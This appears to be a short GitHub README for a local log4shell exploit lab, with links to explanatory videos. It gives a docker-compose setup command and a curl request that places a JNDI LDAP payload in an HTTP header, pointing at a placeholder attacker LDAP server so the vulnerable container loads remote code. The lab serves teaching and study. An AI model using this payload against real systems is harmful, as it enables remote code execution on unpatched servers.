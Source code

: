 # log4shell exploit lab

This repository is a single-line setup for log4shell exploit lab.

Setup the lab: `docker-compose up -d`

Run exploit: `curl -X GET http://localhost:8080/ -H "X-Api-Version: ${jndi:ldap://my_ldap_server:1389/a}"`

Then go to `vul` container and see that indeed we pwned the machine:

![](README-resources/Screenshot%202023-11-30%20205423.png)

You can watch me explain how the exploit works, and the lab setup:

[![Watch the video](https://img.youtube.com/vi/WBzR30JcT5g/)](https://www.youtube.com/watch?v=WBzR30JcT5g)

And you can also watch me explain the code:

[![Watch the video](http://img.youtube.com/vi/oRvp0c-fa1o)](https://www.youtube.com/watch?v=oRvp0c-fa1o)

